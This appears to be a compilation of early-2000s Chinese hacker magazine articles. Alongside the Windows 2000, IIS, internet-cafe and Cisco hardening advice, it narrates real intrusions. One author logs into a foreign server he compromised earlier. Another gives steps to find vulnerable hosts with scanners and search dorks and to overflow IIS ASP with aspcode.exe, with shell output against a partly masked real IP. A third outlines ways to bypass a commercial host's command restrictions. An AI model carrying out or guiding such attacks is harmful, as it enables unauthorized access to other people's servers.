- 3. 还有一个比较麻烦也是比较安全的方法，每次收取邮件后使用 WinZip 把帐户所对应的文件夹压缩，然后给压缩好的 zip 文件加一个口令，下次使用时再解开。

好了，关于 Foxmail 的这个漏洞就讨论到此了。如果有兴趣，你也可以去测试一下 Foxmail 的其它几个旧漏洞在 Foxmail 4.2 简体中文版上是否依然存在。

无论如何，Foxmail 确实是一款优秀的国产软件，我们应该看到它强大的功能，我现在收发 E-mail 用的也是 Foxmail，一些漏洞的存在也不过是白璧微瑕。

以上测试在 WinXP + Foxmail 4.2 简体中文版上通过。

## 黑客研究院

刘晖

当我们架设起一台 Win2000 服务器后，很多服务都是系统默认安装的，其中有些服务是我们平时很少使用或根本就用不上的。而这些服务往往漏洞多多，容易被黑客利用来攻击我们的服务器。

Win2000 服务器漏洞检测：

### 一、基于应用的检测技术

采用被动的、非破坏性的办法检查应用软件包的设置，发现安全漏洞。

### 二、基于主机的检测技术

采用被动的、非破坏性的办法对系统进行检测。通常涉及系统内核、文件属性、操作系统补丁问题，还包括口令解密。因此，可以非常准确地定位系统存在的问题，发现系统漏洞。其缺点是与平台相关，升级复杂。

### 三、基于目标的漏洞检测技术

它采用被动的、非破坏性的办法检查系统属性和文件属性，如数据库、注册号等。通过消息文摘算法，对文件的加密数进行检验。

### 四、基于网络的检测技术

它采用积极的、非破坏性的办法来检验系统是否有可能被攻击崩溃。利用一系列脚本对系统进行攻击，然后对结果进行分析。网络检测技术常被用来进行穿透实验和安全审计。这种技术可以发现一系列平台的漏洞，也容易安装。但是，它容易影响网络的性能，对系统内部检测不到。

### 五、综合的技术

集中了以上四种技术的优点，极大地增强了漏洞识别的精度。

- 1、合理地检测分析的位置；
- 2、完善的报表功能与灵活的配置特性；
- 3、可提供多种检测后的解决方案；
- 4、检测系统本身的完整性等。

我们如何实现手工检测呢？最简单、最方便的还是利用扫描软件来完成，所以也可以说，黑客扫描器是把双刃剑，看使用它的人用它来做什么。下面结合几种扫描和监控的软件来看看如何发现漏洞和补上漏洞。

我们可以用 CMD 命令行扫描器 TVWSCAN，如图1所示。扫描出服务器存在 IDQ、IDA 溢出漏洞。

> 解决方法：在 Internet 信息管理器设置里，把“Web 站点属性”→“主目录”→“配置”里的 IDQ、IDA 映射删除即可。

接着我们用流光漏洞扫描器来为服务器检测，运行程序，选择要扫描的漏洞资料，如果你的服务器安装了 SQL Server 的话，建议扫描 SQL 空口令。选择主菜单中的“探测”→“扫描 SQL 主机”，如图2所示。


如果服务器存在 SQL 的 SA 空口令漏洞，探测结果会显示，如图3所示。


> 解决方法：运行 SQL Server 管理工具，给 SA 账号加上强壮密码，或者在 SQL 命令行执行相关修复语句。

```text
web server type detect -
Server Error

- Probing NT/2000 WWW Vulnerabilities -
Checking: IIS Path Reveal(anything.idq)          !!! FOUND !!!
Checking: IIS Path Reveal(anything.ida)          !!! FOUND !!!
Checking: Mailform HT-Higlighting(cgfullhit.htm) !!! FOUND !!!
Checking: Index Server Security Hole (null.htw)  !!! FOUND !!!
Checking: Indexing service for win2k .htw        !!! FOUND !!!
Checking: Cached Rasm file read(readme.txt)      NOT
```

```sql
-- 删除 SQL Server 中 xp_cmdshell 扩展过程（示意）
if object_id(N'[dbo].[xp_cmdshell]') is not null
  and OBJECTPROPERTY(id, N'IsExtendedProc') = 1
  exec sp_dropextendedproc N'[dbo].[xp_cmdshell]'
GO
use master
sp_dropextendedproc 'xp_cmdshell'
```

这样就算攻击者获得 SA 账号密码远程连接后，也不能调用 CMDSHELL 了。

另外一个也是很常用的数据库 MYSQL，默认安装后也存在 ROOT 空口令漏洞，如果你不补上的话，Internet 上任意远程主机都可以连接你服务器上的 MYSQL 数据库，并可任意编辑、修改、删除数据库。甚至可以通过它来提升权限，完全控制你的服务器，所以必须重视。

### 解决方法

```sql
-- 在 mysql 状态下输入
grant select,insert,update,delete on *.* to root@'%' identified by 'pass';
```

即可为 ROOT 设置口令。这样攻击者就不能远程连接本机数据库了，如图4所示。


如果你的服务器安装了 PERL 解析，很可能会存在 CGI 漏洞。

### 解决方法

这就需要将系统换到最新补丁，在 IIS 管理中限制 CGI 程序执行权限（示意）。

能及时感知系统的风险，是控制被攻击概率的关键。

我们可以利用数据监控软件 CommView 来监视进出本服务器的数据包、经过的端口，如图5所示。


还可以检查可疑数据包的内容，如图6所示。


这样，我们就不会对服务器的运行一无所知，在被攻击前或被攻击后找出攻击者的信息，制定出相应的解决方案。


对于经常上网的朋友来说，他们几乎每次上网都会碰到这样的经历，就是自己的系统被人扫描。也许有的朋友会说“我没有啊？我一点儿也没有感觉到呀？”那是因为你的系统中没有安装网络防火墙，所以你自然一点儿也不会觉察到；但是如果你安装了防火墙并进行了正确的设置，那么一切就不同了，如图1所示。

## 黑客研究院

这是天网拦截到的一次 IP 记录。如图2所示，这是我用 NeoTrace Pro 追踪的结果，结果表明对方是日本的一台主机。


```bash
C:\>net user

980001      990001      990002
990003      aaa         abc
Administrator ASPNET    clou
emmy        ftptest     Guest
IUSR_2000SV IUSR_FMU3JRFSNEPQAP FWAM_2000SV
lcaliveon    LocalPrograms matsumoto
okuda        sagi        shanlu
TSinternetUser tsuchi    tsuchida
```

如图4所示，用户帐号一大堆，估计后门帐号还不止一两个呢！


先查看一下 Administrators 组的帐号。

其实系统被扫描是很正常的，也并没有什么好担心的，但是最令人担忧的是自己的系统被黑客进入了，甚至被安放了后门还一无所知，还在网上吹嘘自己的技术。中国有句俗语叫“知己知彼，百战不殆”，对于那些有过黑客经历的朋友，他们远比一些网络管理员更了解黑客入侵的方法，也更清楚系统会在什么地方出问题。

好，题外话就讲到这儿，让我们接触点实际的。就当前而言，黑客入侵 NT/2000 系统常用的方法仍然是 IPC$ 及 SQL 弱口令以及暴力破解、.ida & .idq 溢出、printer 溢出、Unicode 及二次解码漏洞、SQL 远程溢出等。我们的系统中是否存在这些问题呢？水能载舟，亦能覆舟，扫描程序既可以用来查找对方存在的安全漏洞，同样也可以发现我们自己系统上存在的问题。打开 X-scan，扫描一下自己的服务器，一切就清楚了。


让我们想一下，黑客如果扫描到了这些漏洞会做什么呢？对了，当然是使用弱口令与系统建立连接，或者是利用溢出漏洞溢出权限，然后添加后门帐号，以方便自己干活。

我们登录上一台国外的服务器看看，这是我前两天弄到的。

```bash
G:\hacker>telnet 61.*.*.110
```

好了，成功上去，接下来看一下系统中存在的用户列表。

```bash
C:\>net localgroup administrators

980001
990002
Administrator
emmy
Guest
sagi
shanlu
TSinternetUser
tsuchi
```

如图5所示，除了我添加的一个外，还有好几个，看来这个服务器早就被人做成肉鸡了。像这些拥有系统管理员权限的帐号就是一个很大的问题，有些黑客在添加后门帐号的时候会使用 `$` 字符，如 `abc$`、`sagi$`。这样的帐号使用 `net user` 命令是看不到的，不过使用 `net localgroup administrators` 仍然可以清楚地看到。

> **注意**：在这里要小心三个问题，一是入侵者将选择的后门帐号添加到 Backup Operators 或其他的组中，而并非仅仅是 Administrators 组，所以我们在检查帐号的时候不要只局限于 Administrators 组。

在 Win2000 的图形界面下，我们可以通过“控制面板”中的“用户和密码”检查，如图6所示。

如果我们的系统中存在 Unicode 或二次解码漏洞，根据入侵经……验，对方一定会利用 tftp 将 idq.dll 上传至可执行目录 scripts，有时在这个目录下还会有 cmd.exe 的备份。好的，我们转到 scripts 目录下看一看。

```bash
C:\Inetpub\scripts>dir
```

图 5

图 6

如图 7 所示，虽然我们在 scripts 目录下并没有发现 cmd.exe 的备份以及 idq.dll，但这并不能说明什么，因为入侵者完全可以在得到系统管理员权限后再删除这些已经用不着的东西。但是只要对方真的使用 tftp 上传了 idq.dll，或是做过 cmd.exe 的备份，或是遍历过系统的目录，就一定会被历史记录记录下来。

图 7

让我们转到 logfiles 目录下的历史记录上去看看，如图 8 所示，这是对方的 FTP 历史记录，包括登录时用的账号，登录是否成功，以及执行的操作等等，记录得很清楚吧。

图 8

如图 9 所示，这是我的 HTTP 历史记录，清楚地记录下了别人的扫描。

图 9

但是，一些入侵老手是不会留下上面这些东西的，这时我们就要从别的方面下手了。

以我的入侵经历，通常入侵后都会添加后门账号，然后开启 telnet 或者是别的一些后门服务，当然还有一些朋友热衷于做成代理或植入木马。

让我们看一下对方开启的端口。

```bash
C:\WINNT>netstat -a |more
```

系统中当前开放的端口情况清楚地列了出来，如图 10 所示。有哪些端口处于监听状态，有谁正在连接系统一目了然，图中的那个 61.241.62.135 就是我的 IP。

图 10

## 黑客研究院

接下来再让我们看一下系统已经开启的服务，如图 11 所示。

```bash
C:\WINNT>net start |more
```

图 11

在图形界面下，我们还可以通过查看进程来查看系统已经运行的程序，如图 13 所示。

图 13

看到没有，telnet 已经开启了，另外还有一个东西 pcAnywhere，这是一个功能非常强大的远程控制软件。差点儿忘了查看 at 命令，再来查看一下计划任务，如图 12 所示。

图 12

除了上面提到的外，我们还要小心特洛伊木马，许多入侵者都会选择使用特洛伊木马来完成控制。至于如何寻找木马，关于这方面的文章很多，在这儿我就不多说了。另外就是在系统中搜索一些黑客常用的工具，比如 NTLM、nc.exe 等等。

在 UNIX 系统中，方法大致类似，使用 cat passwd 及 cat shadow 来查看后门账号；cat .rhosts 及 cat hosts.equiv 来查看“++”后门；cat /usr/sbin/inetd 来检查服务进程后门，找出被入侵者开启的后门服务；cat /var/spool/crontab/root 来检查 crontab 后门等等。不过总的来说，在 UNIX 下搜索黑客还是比 NT/2000 要难一些。

因为我是菜鸟，所以我的水平有限，欢迎大家与我一起探讨网络安全方面的技术。

虎翼网虚拟主机为收费用户提供 PHP+MySQL 支持，同时也提供了对 Perl CGI 的支持。上次我们说到虎翼网虚拟主机对用户执行命令进行了限制，但是却没有提到这种限制是如何实现的，以及有没有办法绕过这种限制。

本文就是回答这两个问题的，同时还有一些附加的内容，很可能是你非常需要的东西，所以请仔细阅读。

由于本文需要涉及到 PHP 的配置文件 PHP.INI 的很多指令，为了方便大家理解，所以先在这里介绍一些可能用到的指令。

- **safe_mode**：该指令设置是否打开安全模式。
- **safe_mode_gid**：该指令用于设置打开文件时是否进行用户组比较。
- **safe_mode_include_dir**：该指令用于设置包含文件的目录。
- **safe_mode_exec_dir**：该指令用于设置安全模式允许运行命令的目录。
- **open_basedir**：该指令用于设置打开文件的根目录。
- **safe_mode_allowed_env_vars**：该指令包含用逗号分隔的前缀列表，在安全模式中，用户仅可以替换在此列出的前缀开头的环境变量。默认地，用户将仅能设定以 PHP_ 开头的环境变量（如：PHP_FOO=BAR）。
- **safe_mode_protected_env_vars**
- **disable_functions**
- **display_errors**
- **display_startup_errors**
- **log_errors**
- **track_errors**
- **error_prepend_string**
- **error_append_string**
- **error_log = /tmp/php_error**
- **warn_plus_overloading**

这一指示为空，PHP 将让用户更改任意环境变量。

我们都知道 PHP 提供了一些安全特性用于限制用户使用一些特殊函数，而限制执行命令就是其中最常见的一种。比如下面的 PHP.INI 片段：

```ini
; --- snip from php.ini ---

; Safe Mode
safe_mode = On

; By default, Safe Mode does a UID compare check when opening files.
; If you want to relax this to a GID compare, then turn on safe_mode_gid.
safe_mode_gid = Off

; When safe_mode is on, UID/GID checks are bypassed when including files
; from this directory and its subdirectories.
; (directory must also be in include_path or full path must be used)
safe_mode_include_dir =

; When safe_mode is on, only executables located in the safe_mode_exec_dir
; will be allowed to be executed via the exec family of functions.
safe_mode_exec_dir = /usr/local/php/exec

open_basedir =
```

```ini
; ... will be allowed to be executed via the exec family of functions.
safe_mode_exec_dir = /usr/local/php/exec

; open_basedir, if set, limits all file operations to the defined directory
; and below. This directive makes most sense if used in a per-directory
; or per-virtualhost web server configuration file.
open_basedir =

; Setting certain environment variables may be a potential security breach.
; This directive contains a comma-delimited list of prefixes.
; In Safe Mode, the user may only alter environment variables whose names
; begin with the prefixes supplied here. By default, users will only be
; able to set environment variables that begin with PHP_ (e.g. PHP_FOO=BAR).

; Note: If this directive is empty, PHP will let the user modify ANY
; environment variable!
safe_mode_allowed_env_vars = PHP_

; This directive contains a comma-delimited list of environment variables
; that the end user won't be able to change using putenv().
; These variables will be protected even if safe_mode_allowed_env_vars
; is set to allow to change them.
safe_mode_protected_env_vars = LD_LIBRARY_PATH

; This directive allows you to disable certain functions for security reasons.
; It receives a comma-delimited list of function names. This directive is
; NOT affected by whether Safe Mode is turned On or Off.
disable_functions = phpinfo

; --- snip from php.ini ---
```

上面的配置打开了 `safe_mode` 功能，像一些能执行系统命令的函数 `shell_exec()` 和 `` ` ` `` 就被禁止了，而其它的一些执行函数如：`exec()`、`system()`、`passthru()` 和 `popen()` 将被限制为只能执行 `safe_mode_exec_dir` 指定目录下的程序。而且，我们禁止了一些可能对安全有危害的函数，如 `phpinfo` 等。

也正是因为有了这些知识，所以我一直认为虎翼网是采用了这种方法进行的限制。但是后来对 Perl CGI 的测试让我困惑，难道 Perl CGI 也有类似 PHP 的安全模式的内容，而就我掌握的知识是没有的。于是我开始怀疑以前的推测。

后来想过几种可能性，也排除了其中的大部分猜想，最后确定了一种可能。为了验证自己的想法，我又对虎翼网虚拟主机进行了一次有针对性的安全检测，结果证实了我的猜想是正确的。

## 黑客研究院

我们首先需要做的就是看看虎翼网虚拟主机的 PHP.INI 文件的配置情况，以下是下载的部分关键片段：

```ini
php.ini of 51.net

Safe Mode

safe_mode = Off
safe_mode_exec_dir =

; This directive allows you to disable certain functions for
; security reasons.
; It receives a comma-delimited list of function names.
; This directive is NOT affected by whether Safe Mode is turned On or Off.

disable_functions = phpinfo,phpversion,system
```

```bash
snip of ls -l /bin
x test
x [
x csh
x tcsh
rmail
ed
red
```

看到了没有？safe_mode 并没有启动，而只是限制了某些函数。这说明虎翼网虚拟主机不是利用 PHP 的特性限制了执行命令。我们接下来看一下虎翼网虚拟主机内可执行文件的属性，继续使用我们的 phpbd.php，可以得到下面的列表：

这下明白了吧？原来虎翼网虚拟主机是利用可执行文件的权限进行限制，只有虚拟主机用户可执行的程序才能被 PHP 程序调用执行，当然对于 Perl CGI 也是如此。但是对于那些没有权限执行的程序而言呢，为什么不报错？这是因为 PHP.INI 中的如下配置：

```bash
snip of ls -l /bin
x cat
chio
chmod
x cp
date
dd
df
domainname
x echo
expr
hostname
kill
ln
link
ls
x mkdir
x mv
pax
ps
x pwd
x realpath
rcp
x rm
x unlink
rmdir
x sh
x sleep
```

```ini
php.ini of 51.net

; Print out errors (as a part of the output). For production web sites,
; you're strongly encouraged to turn this feature off, and use error logging instead.
; Keeping display_errors enabled on a production web site may reveal security information.

display_errors = On

display_startup_errors = Off

log_errors = On
track_errors = Off
error_prepend_string = ""
error_append_string = ""
error_log = /tmp/php_error
```

```ini
; Log errors to syslog (Event Log on NT, not valid in Windows 95).
error_log = syslog

; Warn if the + operator is used with strings
warn_plus_overloading = Off
```

```apache
# AddHandler cgi-script .php
# AddHandler cgi-script .php3
AddType application/x-httpd-php .php3
AddType application/x-httpd-php .php

# SSIs
AddType text/x-server-parsed-html .html .htm .shtml
```

这样虽然把错误信息记录到日志文件中，但是并不会显示出来，所以我们经常得到空白的页面，这就是答案。这样做的好处包括：实现简单，对任何 CGI 语言有效；但也有致命缺点，就是管理麻烦，尤其系统经常变动时更难维护。

说道这里，我们应该知道突破这种限制的方法大概有三种：一是利用 PHP 中的丰富函数变相实现受限制命令；二是利用系统中未正确设置权限的可执行文件获取 shell；三是自己构造所需可执行文件。

```apache
# CGI scripts
AddHandler cgi-script .cgi
AddHandler cgi-script .pl
```

看到了吗？原来虚拟主机也支持 SSI。也就是说，若站点支持上传文件且文件类型包含 html，就可能带来比 XSS 更高的风险。最后说明一点：在虚拟主机上各用户 UID 不同但 GID 可能相同，还需考虑 MySQL 用户权限，否则限制可能被绕过。

> 声明：本文出于教育目的，请勿用于非法用途，否则后果自负。

## 关于网吧服务器的网络安全问题

银蜥蜴

网吧已经成为当前人们上网的主要场所，随着网吧经营规范化，去网吧上网也渐渐成为一种享受。由于宽带普及，网吧几乎都接入 Internet，因此安全问题非常突出。作为网吧服务器，往往固定 IP、暴露面大，若配置不当极易被攻击。

那么，怎样才能使网吧服务器安全呢？首先是关闭不必要的端口和服务。一般网吧不需要 telnet 等服务，应尽量精简。下面列出一些关于 Windows 2000 Server 的安全配置。

### 一、组件的定制

Win2000 默认会安装一些常用组件，但默认安装并不安全。应明确所需服务，仅安装必要组件。遵循“最少服务 + 最小权限 = 最大安全”的原则。

典型 WEB 服务最小组件包括 IIS 的核心组件；而 Indexing Service、FrontPage 2000 Server Extensions、Internet Service Manager (HTML) 等高风险组件通常不建议安装。

### 二、安装顺序的选择

安装顺序很重要。Win2000 安装后若立即联网，可能因初始共享和服务暴露造成风险；应在完全安装并配置好系统后再接入网络。其次，补丁安装应在应用安装完成后统一进行，以避免覆盖或失效问题。

> 注意：例如 IIS 的 Hotfix 往往要求在变更 IIS 配置后重新评估并更新。

### 三、细致地配置

即使正确地安装了 Win2000 Server，系统还是有很多的漏洞，还需要进一步进行细致地配置。

#### 1. 终端端口

端口是计算机和外部网络相连的逻辑接口，也是计算机的第一道屏障。端口配置正确与否直接影响到主机安全。一般来说，仅打开你需要使用的端口会比较安全，配置方法是在“网上邻居”→“TCP/IP”→“高级”→“选项”→“TCP/IP 筛选”中启用“TCP/IP 筛选”。不过对于 Windows 2000 的端口过滤来说，只能规定开放端口，不能规定关闭端口。

#### 2. 配置 IIS

IIS 是微软组件中漏洞较多的一项，配置是重点。建议将默认的 Inetpub 目录迁移到非系统盘（如 D:\Inetpub）；删除默认 scripts 等虚拟目录；目录权限按需最小化分配，尤其注意写权限与执行权限；删除不必要的应用程序映射，仅保留 ASP、ASA 及确实需要的类型；将应用程序调试中的脚本错误消息改为发送文本，减少信息泄露。

为应对 CGI 漏洞扫描器，可将 HTTP404 错误页面通过 URL 重定向到定制 HTML，从而干扰基于返回码的简单扫描判断。

> **注意**：许多 idq 漏洞扫描通过返回码判断（如 HTTP200 认为存在、HTTP404 认为不存在）。若将 404 统一重定向，可能使大量扫描器误判；但这属于“迷惑”手段，不能替代真实安全加固。

另外可使用 IIS 备份功能保存当前安全配置，以便随时恢复；并可在性能设置中限制 CPU 使用率（例如 70%）以降低异常负载风险。

#### 3. 账号安全

Win2000 的账号安全是另一重点。默认配置允许匿名用户枚举账号、共享列表，存在被暴力破解和信息泄露风险。可通过本地安全策略（或域策略）中的 RestrictAnonymous 相关选项进行限制。

- 0. None: Rely on default permissions（无，依赖默认权限）
- 1. Do not allow enumeration of SAM accounts and shares（不允许枚举 SAM 账号和共享）
- 2. No access without explicit anonymous permissions（没有显式匿名权限则不允许访问）

值 0 为默认，几乎无额外限制；值 1 可阻止 NULL 用户枚举 SAM 与共享；值 2 限制更严格，但可能影响共享访问，实务中常建议先设为 1 并测试业务兼容性。

除限制匿名枚举外，还应重命名内置 Administrator 账号，并在注册表中设置不显示上次登录用户名：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon` 下将 `DontDisplayLastUserName` 设为 `1`。

#### 4. 安全日志

若发生入侵后发现安全日志为空，通常是未开启审计。Win2000 默认并不启用安全审核，需要在“本地安全策略”→“审核策略”中开启相应项目。

| 审核项 | 成功 | 失败 |
|---|---|---|
| 账户管理 | √ | √ |

审核项目少的缺点是：万一你想看，发现没有记录那就一点都没辙；审核项目太多不仅会占用系统资源，而且会导致你根本没空去看，这样就失去了审核的意义。

| 策略项 | 设置 |
|---|---|
| 密码复杂性要求 | 启用 |
| 密码长度最小值 | 6位 |
| 强制密码历史 | 5次 |
| 最长存留期 | 30天 |

| 账户锁定策略 | 设置 |
|---|---|
| 账户锁定阈值 | 3次错误登录 |
| 锁定时间 | 20分钟 |
| 复位锁定计数 | 20分钟 |

同样，Terminal Service 的安全日志默认也是不开的，我们可以在“Terminal Service Configuration”→“权限”→“高级”中配置“安全审核”，一般来说，只要记录登录、注销事件就可以了。

#### 5. 目录和文件权限

为了控制好服务器上用户的权限，同时也为了预防以后可能的入侵和溢出，我们还必须非常小心地设置目录和文件的访问权限。NT 的访问权限分为：读取、写入、读取及执行、修改、列目录、完全控制。

- 1. 权限是累计的：如果一个用户同时属于两个组，那么他就有了这两个组所允许的所有权限。
- 2. 拒绝的权限要比允许的权限高（拒绝策略会先执行）。
- 3. 文件权限比文件夹权限高。
- 4. 利用用户组来进行权限控制是成熟系统管理员必须具备的优良习惯之一。
- 5. 仅给用户真正需要的权限，权限最小化原则是安全的重要保障。

#### 6. 预防 DoS

在注册表 `HKLM\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters` 中更改以下值，可以帮助防御一定强度的 DoS 攻击。

```text
SynAttackProtect REG_DWORD 2
EnablePMTUDiscovery REG_DWORD 0
NoNameReleaseOnDemand REG_DWORD 1
EnableDeadGWDetect REG_DWORD 0
KeepAliveTime REG_DWORD 300000
PerformRouterDiscovery REG_DWORD 0
EnableICMPRedirects REG_DWORD 0
```

## 7. 杀 ICMP 攻击

ICMP 的风暴攻击和碎片攻击也是 NT 主机比较头疼的攻击方法。Windows 2000 自带一个 Routing & Remote Access 工具，可以定义输入输出包过滤器。例如，设定输入 ICMP 代码 255 丢弃，表示丢弃所有外来 ICMP 报文。

如果一个网吧的服务器按以上配置去做，就可以防备一些常见的攻击了。

> 篇尾语：我曾经去过一个网吧，那个网吧在那一带网速最快、服务最好，所以生意很好。于是周边一些网吧就经常举报，或攻击该网吧的主机。于是写了这篇文章，希望能给网吧管理员一些提示。


## 特权密码恢复初步

众所周知，路由器在中、大型网络里具有举足轻重的作用。它对于网络参数设置的管理，通常都要以特权密码做简易的保护；一旦忘记密码或密码被入侵改动，都可能导致操作者无法进入路由器进行相应修改。

那么面对这个问题，是不是操作者就束手无策了呢？答案是否定的。事实上，路由器本身已经提供了密码恢复功能。下面笔者针对常用的 Cisco 2501 型路由器为例，介绍实际恢复方法和操作步骤。

## 黑客研究院

### 一、几个概念

Cisco 路由器特权密码的恢复操作主要是通过配置寄存器的设置值进行控制的。在介绍具体操作方法之前，我们还要弄清以下几个概念。

- 1. **正在运行的配置文件（running-config）**：路由器开机运行后，网络管理员对路由器的配置都保存在这个运行配置文件中，此文件被保存在 DRAM 存储器中，它会随着电源供电中断而消失。
- 2. **启动配置文件（startup-config）**：网络管理员修改路由器的配置后，为了使路由器长期保存修改后的设置值，就需要将其存储到启动配置文件中，这个文件被保存在 NVRAM 存储器中，它不会随电源供电中断而消失。
- 3. **IOS**：Internetwork Operation System（互联网络操作系统），它是 Cisco 路由器用来设置网络设备的主要核心软件，存储在路由器的 Flash/ROM 中。
- 4. **配置寄存器（configuration register）**：它有 16 个位，通常默认值为 `(2102)16`。通过修改第 6 位，可控制是否忽略启动配置文件，从而实现密码恢复。

### 二、具体操作步骤

弄清上面这几个概念后，我们就可以一步一步地恢复路由器的特权密码了。具体操作步骤如下：

- 1. 关闭路由器和 PC 机电源，用专用线缆将 Console 口与 PC 的 COM1/COM2 连接。
- 2. 打开 PC，运行超级终端（Hypertrm.exe），新建连接（如 Cisco），连接到 COM 口并设置速率 9600bit/s。
- 3. 打开路由器电源，在开机过程中按 `Ctrl+Break` 进入 ROM Monitor，出现 `>` 提示符。
- 4. 在 `>` 下输入 `o/r 0x2142`，将配置寄存器改为 `(2142)16`（第 6 位置 1）。
- 5. 输入 `initialize`，加载 IOS 并继续启动。
- 6. 系统询问是否进入 initial configuration dialog 时输入 `No`，直至出现 `Router>`。
- 7. 在 `Router>` 输入 `enable`（或 `en`）进入 `Router#`。
- 8. 在 `Router#` 输入 `copy startup-config running-config`，把启动配置拷贝到运行配置。
- 9. 出现设备提示符（如 `fx2501#`）后，输入 `config terminal`（或 `conf t`）进入配置模式。
- 10. 在 `fx2501(config)#` 输入 `enable secret ******` 重新设置特权密码。
- 11. 在 `fx2501(config)#` 输入 `config-register 0x2102`，恢复寄存器初始值（第 6 位为 0）。
- 12. 输入 `exit` 回到 `fx2501#`。
- 13. 输入 `copy running-config startup-config`，保存配置到 NVRAM。
- 14. 输入 `reload` 重启，确认后重新登录并验证新密码是否生效。

要恢复或重置 Cisco 路由器特权密码，核心是通过配置寄存器第 6 位的设置，使设备在开机时临时忽略启动配置文件，从而完成密码重设。

### 三、需注意的问题

实际设置中可能出现密码设置完成后路由器网络不通的情况，例如串口指示灯异常、RTS/TD 不亮、Ping 内外网地址不通等。可重新通过特权模式检查接口配置，若发现接口行含有 `shutdown`，改为 `no shutdown` 并写入配置，再重连网络验证。修改配置后建议先检查网络参数是否变化，必要时恢复原配置并再次连接测试。安装或拆卸路由器时应断电（UPS 或墙壁电源）。

> 看完以上介绍，通常可以恢复或更改路由器密码；请勿进行不当用途，否则后果自负。


## 关于 XP 用户的一点小问题

以下纯属个人的一点小发现，只在两台 XP 上做过实验（两台机器的 XP 系统并非使用同一光盘安装，并且版本不同），如有问题，概不负责。

大家应该清楚，在新装 XP 的时候，需要设置计算机名并且新建至少一个用户。作者在配置机器时使用了 `python` 作为相关名称，随后在新建用户时又尝试建立名为 `python` 的用户，系统提示不能建立该名称，后续改为建立 `x-hunter` 用户。

几天后，作者在控制面板用户账户中尝试将用户 `x-hunter` 改名为 `python`，如图 1 所示。


然后点击“改变名称”，居然成功。此时除内置 `administrator` 和 `guest` 外，仅有一个 `python` 用户。作者随后又新建了一个 `x-hunter` 用户并重启，发现两个账户都可以登录。

在 CMD 中使用 `net user` 查看用户列表时，出现了较奇怪现象，如图 2 所示。


问题在命令显示的最后两个用户名 `x-hunter` 和 `x-hunter_2`。作者随后联想到系统是否保留了早期账户信息，并继续进行 SID 相关实验。

是不是觉得很奇怪？作者提到最初用户名相关变更过程后，使用 Win2k Server Resource Kit 中的 `getsid` 工具来获取用户 SID，继续观察账号与安全标识符之间的关系。

> **小知识**：SID（Security Identifier）是标识用户、组和计算机账户的唯一字符串。

得到的结果让作者感到困惑，如图 3 所示。


从图中可见，在 `net user` 中不可见的 `python` 在这里可见，且其 SID 与 `x-hunter` 的比较结果异常。作者又建立新账号 `python@` 用于进一步比对，结果见图 4。


通过 `x-hunter` 与 `python@` 的比较，作者发现 `python` 的 SID 比这两个账户少了一段，结构上出现差异，因此认为该现象较为异常。

文末作者表示该实验尚未完全解释，希望有经验的读者进一步研究并反馈结论。

## IIS.ASP 漏洞之如何溢出

> 欲望之翼

看了题目大家一起想起上期“黑客研究院”里的一篇文章《ASP 漏洞之尝试溢出攻击》，但我觉得作者有些地方没有写完全，所以在此给予补充，希望大家一起进步。

### 一、漏洞介绍

Microsoft IIS.ASP 映射分块编码远程缓冲区溢出漏洞。


IIS 4.0/5.0/5.1 ASP（Active Server Pages）ISAPI 过滤器存在远程缓冲区溢出漏洞，远程攻击者可利用该漏洞获取主机本地普通用户访问权限。默认安装的 IIS 服务器加载 ASP ISAPI 过滤器，在处理分块编码传送机制的代码中存在一个缓冲区溢出漏洞。攻击者通过提交恶意分块编码数据可覆盖 heap 区有效数据并改变程序执行流程，执行任意代码。

### 二、上文的错误之处

作者在文中提到 aspcode.exe 并不是一个可得到远程服务系统管理员权限的溢出程序，它的作用是查看 ASP 文件源码。这里补充说明：该程序既可用于查看代码，也同时涉及溢出利用思路。

### 三、如何来溢出

我们来看它的帮助，如图 1 所示。


与作者想的一样，我也以为它不是一个溢出程序。如何用它来查看源代码作者讲得已经很仔细，这里就不再多讲了。

#### 步骤

- 1. 扫描有 IIS.ASP 映射分块编码远程缓冲区溢出漏洞的主机。可使用 X-scan2.3cn 只扫 IIS 漏洞，以快速找到存在该漏洞的主机（图 2、图 3）。


- 2. 若主页尚未建立，则默认安装主机成功率较高。若未删除 iisstart.asp，成功把握更大。可通过搜索引擎（如 Google/百度）搜索 `C:\inetpub` 等关键路径来发现默认配置主机（图 4）。


用 X-scan 扫一下吧，八成是有这个漏洞的。原理：FrontPage 生成的 html 文件会将文件路径插入文档中。还可通过搜索特定 default.htm 或 `C:\inetpub` 路径定位不同地区 Win 主机。

### 2、溢出

如图 5 所示，到出现“ok!recv 112 bytes”时多敲几下回车即可得到 shell，表示溢出成功。

```text
please enter the web server:61.18
please enter the .asp filename:ii
.asp file name:iisstart.asp
nuke ip: ************ port 80
shellcode long 0x13e?
packetlong:0x13e?
send packet 71826 bytes...
recv:
c:\inetpub\wwwroot\iisstart.asp
ok!recv 112 bytes

C:\WINNT\system32>
```

图 5 之后即可使用命令 `net user` 或 `net localgroup administrators` 查看主机账户信息。


图6

但我们的权限正如上面说的，因为我们的检测主机是 IIS5.0，所以得到的是 IWAM_computername 用户的权限，不能添加账户。如果我们使用命令 `net user guest 12345677 /add` 添加用户，会出现“系统发生 5 错误，拒绝访问”。

但是我们已经成功进入了主机，并且可以任意看文件、寻找有用信息，这已经很可怕了。有敏锐思维的你一定想到了如何获取管理员权限的方法了吧！

- 1. 直接得到源代码（作者在上文中已经说了）。
- 2. 出现如下信息：
  - shellcode long 0x13e7
  - packetlong: 0x13e7
  - send packet 71827 bytes.
  - 一直在 send……我觉得还是放弃的好。
- 3. 出现 connect error，这样就要检测你的网络了，或者可能是对方主机已经关了。因为现在 IIS4.0 已经不多了，所以这里我们不再检测了。

### 四、关于 isgrey.exe

这个程序作者讲得比较清楚，这里补充一点。

需要注意的是虽然这个漏洞存在于 ASP ISAPI，但还是需要一个机制来提交 Shellcode 等利用代码，所以有表单的 ASP 程序当然是比较方便，可以通过表单变量提交，上面这点作者已经说了。那如果没有表单该怎么办呢？可以通过 HTTP 请求头中的服务器变量来提交。

确实如作者所说，用 isgrey.exe 溢出需要很长的时间。加上 -b 选项的话我用了将近一个小时，但是还没有成功（好像成功率比较低）。

### 五、解决办法

